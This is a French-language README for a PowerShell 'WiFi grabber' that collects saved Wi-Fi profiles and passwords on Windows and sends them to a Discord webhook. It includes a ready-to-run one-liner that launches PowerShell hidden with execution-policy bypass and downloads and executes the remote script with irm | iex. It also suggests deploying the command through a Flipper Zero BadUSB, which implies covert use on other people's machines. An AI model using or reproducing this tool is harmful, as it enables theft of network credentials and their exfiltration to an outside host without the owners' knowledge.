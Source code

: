 # 📡 WiFi Grabber PowerShell

Un script PowerShell léger qui extrait les profils Wi-Fi enregistrés sur une machine Windows (FR) et envoie les identifiants masqués vers un webhook Discord.

---

## 🚀 Fonctionnalités

- 🔍 Récupère tous les profils Wi-Fi (`netsh wlan show profiles`)
- 🔑 Extrait les clés Wi-Fi stockées localement
- 🕵️ Formate les mots de passe Wi-Fi en **spoiler Discord** (`||motdepasse||`)
- 📤 Envoie l’ensemble des infos dans **un seul message** via un webhook Discord

---

## 🧪 Exemple de résultat

📶 Réseau : Livebox_Maison
 🔑 Clé : ||motdepasse123||

📶 Réseau : GUEST_WIFI 🔑
 Clé : ||weloveunifi||

---

## ⚙️ Utilisation


### 1. Héberger le script en version RAW 

### 2. Exécution via ligne de commande PowerShell (ou Flipper Zero BadUSB)

`Windows + R`

```bash
powershell -w h -NoP -Ep Bypass $webhook='https://discord.com/api/webhooks/TON_ID/TON_TOKEN';irm https://raw.githubusercontent.com/tonrepo/wifi-grabber/main/wifi.ps1 | iex
```





![PowerShell](https://img.shields.io/badge/script-PowerShell-blue?logo=powershell)
